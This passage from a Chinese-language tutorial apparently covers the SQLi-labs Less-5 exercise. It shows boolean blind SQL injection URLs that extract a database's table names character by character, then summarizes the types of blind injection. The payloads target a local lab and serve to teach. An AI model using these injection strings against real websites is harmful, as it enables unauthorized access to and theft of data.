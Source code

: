 第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”

2.**猜解表明名**

```
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```

注：select下的limit是第几个表。

substr下的是截取的表内容。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**

![](./assets/20250210/9719b0efc9eb415dbe8d583d9d6fcfbd.png)

### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**

```
SQL注入之加解密注入
```

Base64是网络上最常见的用于传输8Bit[字节码](https://baike.baidu.com/item/%E5%AD%97%E8%8A%82%E7%A0%81/9953683)的编码方式之一，Base64就是一种基于64个可打印字符来表示[二进制](https://baike.baidu.com/item/%E4%BA%8C%E8%BF%9B%E5%88%B6/361457)数据的方法。
